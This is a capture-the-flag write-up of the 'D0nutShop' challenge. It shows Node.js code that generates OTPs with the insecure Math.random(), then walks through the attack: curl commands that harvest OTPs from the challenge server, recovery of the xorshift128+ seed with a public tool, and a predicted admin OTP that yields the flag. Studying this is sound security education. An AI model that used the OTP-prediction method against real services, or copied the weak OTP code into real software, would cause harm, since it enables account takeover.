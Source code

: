 # D0nutShop
![Image](https://github.com/user-attachments/assets/d8a79cc1-05e8-4b2b-9613-473bae6d0b6e)

**Attachment:** [challenge.zip](https://github.com/user-attachments/files/19113145/challenge.zip)  
**Password:** snyk-ftf-2025  
**Credentials:**
- d0nut:d0nutboi

## Writeup
![Image](https://github.com/user-attachments/assets/394d3c39-b057-46d2-a0a2-6e5a39a3a95d)

"D0nutShop" is a simple online donut store.

Looking at the description and the site, there is a reference to the `Math.floor()` function. Checking the source code, this is the relevant part:

```javascript
const CONST = 10000000;
const otpStore = {};

function generateOtp(username) {
    const otp = Math.floor(CONST * Math.random());
    otpStore[username] = otp;
    return otp;
}

function verifyOtp(username, otp) {
    if (otpStore[username] && parseInt(otp) === otpStore[username]) {
        delete otpStore[username];
        return true;
    }
    return false;
}

module.exports = { generateOtp, verifyOtp };
```

The `Math.random()` function is not cryptographically secure at all, as we can se [here](https://developer.mozilla.org/en-US/docs/Web/JavaScript/Reference/Global_Objects/Math/random).

There's an **admin login page**, and at the bottom, an option to reset the password by requesting an **OTP**:

![Image](https://github.com/user-attachments/assets/57d433c6-5cd5-4e13-8ffb-baee809ce47d)

![Image](https://github.com/user-attachments/assets/043c5840-3e5f-43f8-b6ac-67c458768d95)

`admin` is a valid user, and this is the message I get from the site with the method I can use to retrieve the OTP:

![Image](https://github.com/user-attachments/assets/6df97b5d-3e42-4b1c-a2ee-b762c8548d91)

While browsing GitHub, I found this repo explaining how to exploit the vulnerable `Math.floor(CONST * Math.random())` function: https://github.com/d0nutptr/v8_rand_buster  

So, I started by using **curl** with the message I received from the site to collect multiple `OTPs`:

```bash
curl -s -X POST http://challenge.ctf.games:31557/reset -d 'username=d0nut' 1>/dev/null
curl -s -X POST http://challenge.ctf.games:31557/reset/api/get-otp -H 'Content-Type: application/json' -d '{"username":"d0nut","password":"d0nutboi"}'
```

![Image](https://github.com/user-attachments/assets/b53fe910-908a-4fb9-8590-247d1b161b24)

Then I installed the repo and followed the instructions to generate a `seed`:

```bash
cat codes.txt | tac | python3 xs128p.py --multiple 10000000 --lead 6
```

![Image](https://github.com/user-attachments/assets/aeaf714c-bf75-4bb5-962d-07ff61378957)

I generated the following OTPs using the seeds I retrieved:

```bash
python3 xs128p.py --multiple 10000000 --gen 1155105234970035644,15775672274592191546,7
```

![Image](https://github.com/user-attachments/assets/2928fa89-b5ea-4432-9db0-317abdf25c91)

![Image](https://github.com/user-attachments/assets/8b4edd0b-0752-40c5-9ac8-3bab47f83b15)

![Image](https://github.com/user-attachments/assets/a9425464-5c9d-4c80-8097-245b80c14324)

![Image](https://github.com/user-attachments/assets/f0038440-d792-43d1-9196-7ea8c78520ac)

**flag{9edab280dafea57fa1deea3b7a9885f3}**
